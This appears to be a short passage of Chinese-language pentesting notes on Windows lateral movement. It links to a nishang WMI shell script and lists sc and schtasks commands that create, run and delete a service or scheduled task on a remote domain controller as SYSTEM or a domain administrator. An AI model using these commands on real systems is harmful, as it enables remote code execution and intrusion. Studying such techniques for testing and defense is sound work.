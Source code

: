 ![](./pic/6/5.jpg)  

##### powershell remoting
感觉实质上还是操作wmi实现的一个执行程序  

https://github.com/samratashok/nishang/blob/5da8e915fcd56fc76fc16110083948e106486af0/Shells/Invoke-PowerShellWmi.ps1  


##### SC创建服务执行
一定要注意的是binpath这些设置的后面是有一个**空格**的  
```
1、系统权限(其中test为服务名)
sc \\DC1 create test binpath= c:\cmd.exe
sc \\DC1 start test
sc \\DC1 delete test

2.指定用户权限启动
sc \\DC1 create test binpath = "c:\1.exe" obj= "centoso\administrator" passwrod= test
sc \\DC1 start test
```

##### schtasks
schtasks计划任务远程运行  
```
命令原型：
schtasks /create /tn TaskName /tr TaskRun /sc schedule [/mo modifier] [/d day] [/m month[,month...] [/i IdleTime] [/st StartTime] [/sd StartDate] [/ed EndDate] [/s computer [/u [domain\]user /p password]] [/ru {[Domain\]User | "System"} [/rp Password]] /?

For example:
schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe /sc once /st 00:00 /S host /RU System
schtasks /run /tn foobar /S host
schtasks /F /delete /tn foobar /S host
```
验证失败：win03连到08,xp连到08,xp连到03(但是并没有真正的成功执行,不知道是不是有姿势错了)  
![](./pic/6/6.jpg)  
 